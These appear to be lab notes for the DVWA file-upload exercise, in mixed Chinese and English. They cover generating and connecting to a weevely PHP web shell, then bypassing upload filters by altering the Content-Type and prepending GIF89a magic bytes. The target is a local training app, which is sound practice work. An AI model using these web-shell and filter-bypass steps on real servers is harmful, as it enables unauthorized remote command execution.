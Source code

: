 # Upload Fiole
## Level Low
```bash
# Use weevely generate shell.php
weevely generate 12345 shell.php
# 直接在页面中上传
# 连接到Web Shell
weevely http://127.0.0.1/dvwa/hackabel/uploads/shahazad.php 12345
# use linux command to view file content.
```

## Level Medium Security.
```bash
# 在这个级别不能直接上传php文件，只允许上传图片
# 需要借助Burp Suite进行拦截和修改Content-type为：image/png
```

## Level Hight Security.
```bash
# 直接修改文件后缀名不可直接上传
# We changed extention but it is still not allowing to upload.
# Add this on your shell GIF89a; and change extension.
# Then can success upload file. But we can't run command.
# We can use command rename file to php

```
